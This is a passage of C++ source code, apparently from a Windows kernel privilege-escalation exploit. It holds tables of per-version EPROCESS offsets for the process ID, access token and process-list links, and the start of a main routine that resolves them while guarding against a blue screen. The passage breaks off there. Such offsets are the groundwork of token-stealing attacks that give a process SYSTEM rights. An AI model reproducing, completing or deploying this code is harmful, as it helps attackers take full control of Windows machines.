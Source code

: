 ```c++
    return version;
}

int GetUniqueProcessIdOffset(const std::string& version) {
    static const std::map<std::string, int> uniqueProcessIdOffsets = {
        {"Windows 7", 0x180},
        {"Windows 8", 0x2E0},
        {"Windows 8.1", 0x2E0},
        {"Windows 10 (1507)", 0x2E8},
        {"Windows 10 (1511)", 0x2E8},
        {"Windows 10 (1607)", 0x2E8},
        {"Windows 10 (1703)", 0x2E8},
        {"Windows 10 (1709)", 0x2E8},
        {"Windows 10 (1803)", 0x2E8},
        {"Windows 10 (1809)", 0x2E0},
        {"Windows 10 (1903/1909)", 0x2E0},
        {"Windows 10 (2004+)", 0x440},
        {"Windows 11", 0x440},
    };
    auto it = uniqueProcessIdOffsets.find(version);
    if (it != uniqueProcessIdOffsets.end()) {
        return it->second;
    }
    else {
        return -1;
    }
}

int GetTokenOffset(const std::string& version) {
    static const std::map<std::string, int> tokenOffsets = {
        {"Windows 7", 0x208},
        {"Windows 8", 0x348},
        {"Windows 8.1", 0x348},
        {"Windows 10 (1507)", 0x358},
        {"Windows 10 (1511)", 0x358},
        {"Windows 10 (1607)", 0x358},
        {"Windows 10 (1703)", 0x358},
        {"Windows 10 (1709)", 0x358},
        {"Windows 10 (1803)", 0x358},
        {"Windows 10 (1809)", 0x358},
        {"Windows 10 (1903/1909)", 0x360},
        {"Windows 10 (2004+)", 0x4b8},
        {"Windows 11", 0x4b8},
    };
    auto it = tokenOffsets.find(version);
    if (it != tokenOffsets.end()) {
        return it->second;
    }
    else {
        return -1;
    }
}

void main()
{
    std::string windowsVersion = GetWindowsVersion();
    TOKEN_OFFSET = GetTokenOffset(windowsVersion);
    PID_OFFSET = GetUniqueProcessIdOffset(windowsVersion);
    APL_OFFSET = PID_OFFSET + 0x8;


    if (TOKEN_OFFSET == -1 || APL_OFFSET == -1 || PID_OFFSET == -1) {
        printf_s("\t[++] Unable To Find Offsets, exiting to prevent BSOD\n");
```